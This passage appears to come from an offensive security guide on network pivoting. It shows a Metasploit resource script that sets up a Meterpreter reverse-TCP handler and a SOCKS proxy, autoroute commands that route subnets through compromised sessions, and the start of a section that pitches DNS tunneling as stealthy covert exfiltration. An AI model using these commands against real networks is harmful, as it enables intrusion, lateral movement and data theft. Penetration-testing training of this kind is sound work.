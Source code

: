 ```bash

# Session management for complex pivots
sessions -l                                  # List all sessions
sessions -i 1                                # Interact with specific session
sessions -k 1                                # Kill specific session
sessions -K                                  # Kill all sessions

# Resource scripts for automated pivoting
cat > pivot_setup.rc << 'EOF'
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
exploit -j -z

use auxiliary/server/socks_proxy
set SRVPORT 1080
run -j
EOF

msfconsole -r pivot_setup.rc

# Advanced routing scenarios
# Route specific subnets through different sessions
run autoroute -s 192.168.1.0/24 -n 1       # Through session 1
run autoroute -s 192.168.2.0/24 -n 2       # Through session 2

# Conditional routing based on session availability
# If primary session fails, traffic routes through backup

# Why advanced Metasploit pivoting is essential:
# - Multi-hop network traversal
# - Load balancing across pivot points
# - Persistent session management
# - Automated pivot establishment
# - Complex routing scenario support
```

## Advanced Tunneling Techniques

### **DNS Tunneling**

**What DNS tunneling is:** Technique that encodes data within DNS queries and responses to bypass firewalls and exfiltrate data through DNS traffic.

**Why DNS tunneling is stealthy:** DNS traffic is typically allowed through firewalls, appears legitimate, and is often unmonitored by security tools.

**When to use DNS tunneling:** Highly restrictive network environments, when other protocols are blocked, and for covert data exfiltration.
